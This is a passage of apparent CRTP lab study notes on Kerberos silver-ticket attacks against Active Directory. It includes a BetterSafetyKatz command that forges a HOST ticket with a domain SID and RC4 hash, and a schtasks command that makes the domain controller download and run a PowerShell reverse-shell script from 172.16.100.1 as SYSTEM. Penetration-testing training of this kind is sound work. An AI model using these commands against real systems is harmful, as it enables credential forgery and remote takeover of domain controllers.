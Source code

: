 ![Alt text](/assets/images/posts/crtp/11.png){: .align-center}

![Alt text](/assets/images/posts/crtp/12.png){: .align-center}




> LAPS - control local admin credentials, does not control service accounts
> so, silver ticket will not be applied to laps



- There are various ways of achieving command execution using Silver tickets

**Create a silver ticket for the HOST SPN which will allow us to schedule a task on the target**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

> This is Noisy

**Schedule and execute a task**:
```powershell 
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```
